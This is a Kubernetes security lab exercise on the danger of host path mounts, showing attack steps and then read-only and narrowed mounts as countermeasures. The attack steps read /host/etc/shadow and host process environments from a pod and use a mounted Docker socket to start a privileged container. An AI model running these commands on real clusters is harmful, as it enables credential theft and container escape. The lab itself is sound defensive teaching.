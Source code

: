 +++
categories = []
date = "2020-02-20"
description = ""
slug = ""
tags = []
title = "Read-only host mounts"
draft = false
toc = true
weight = 15
+++

### Introduction
In this exercise, we cover:

 - The risk of host mounts
 - How to use read-only mounts if they suffice

### Setup
In this example, we'll just directly use a shell inside the app.
Our example app will be a simulated monitoring agent mounting the same paths as the [Datadog DaemonSet](https://docs.datadoghq.com/agent/kubernetes/daemonset_setup/?tab=k8sfile):
```
volumeMounts:
  - {name: dockersocket, mountPath: /var/run/docker.sock}
  - {name: procdir, mountPath: /host/proc, readOnly: true}
  - {name: cgroups, mountPath: /host/sys/fs/cgroup, readOnly: true}
  - {name: s6-run, mountPath: /var/run/s6}
  - {name: logpodpath, mountPath: /var/log/pods}
  ## Docker runtime directory, replace this path with your container runtime
  ## logs directory, or remove this configuration if `/var/log/pods`
  ## is not a symlink to any other directory.
  - {name: logcontainerpath, mountPath: /var/lib/docker/containers}
```

We'll also mount `/etc` itself for extra fun.

Let's deploy our simulated agent:

```
kubectl apply -f https://securek8s.dev/agent/base.yaml
```

<!-- TODO: note that you read env vars with this mount, even if read-only. Also, the Docker socket—scream! -->

### Attack
With our power to execute commands, we'll see what types of files we
could modify, and what sorts of access they could provide.

Find a pod:
```
kubectl get po -n mounts
```

Then get into it:
```
kubectl exec -it -n mounts <pod> bash
```

Now, try some host modifications and information gathering attempts:

```
touch /host/etc/flag
cat /host/etc/shadow
ls /host/proc/
cat /host/proc/*/cmdline
cat /host/proc/1/cmdline
ls -alh /host/proc/1/environ
```

Note that our host info is different from our container's:

```
cat /proc/1/cmdline
```

What else can you come up with?

Note that this deployment is extra-dangerous because it mounts the Docker socket.
That's a great way for your container to have effectively root privileges on the node.

Let's see what we can do:

```
apt-get update
apt-get install -y curl
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

Use ctrl-D to exit once you've finished poking around.
(Now you're back in the pod.)

Let's use some of the other mounts. For instance, we could spy on other containers' logs:
```
ls /var/log/pods
```

Pick a pod you're interested in, then see what you can learn from the logs.

### Countermeasure
We can:

 - Remove some mount paths our application doesn't need,
 - Mark some of our mounts read-only, and
 - Mount more specific paths,

depending on the access we actually need.

This can require a bit of application knowledge, so is often best done with the team that maintains or operates the app.

Let's see what our improved deployment changes:

```
kubectl diff -f https://securek8s.dev/agent/improved.yaml
```

Then let's deploy it:

```
kubectl apply -f https://securek8s.dev/agent/improved.yaml
```

Find a pod:
```
kubectl get po -n mounts
```

Then get into it:
```
kubectl exec -it -n mounts <pod> bash
```

### Attack effects after patching
You can't mess with stuff if you can't write to it, or
find out information you can't read!

Note that the Docker socket [still **does** work](https://news.ycombinator.com/item?id=17983623) despite us mounting it read-only:

```
apt-get update
apt-get install curl
curl https://download.docker.com/linux/static/stable/x86_64/docker-19.03.6.tgz | tar xzv
./docker/docker ps
./docker/docker run --rm -it --privileged ubuntu
```

If we try some of the same manipulations we tried earlier, they'll fail.

### How to use it yourself
If you use an application that needs to know something about the host,
you might need to mount a host path.

You can minimize the risk that such mounts poses by:

 - marking them read-only, and
 - minimizing the mount surface to just what's required.

Note, when you're slimming down mounts: container runtimes will sometimes _create_ files on your host
if they do not exist, which can be a problem if you want to mount
a path that might not exist.
This is particularly annoying when you try to mount a specific file
and the runtime creates a directory.

### Next up
We'll pivot to network policies in the next exercise:

[**Network policies**](../20-netpol)
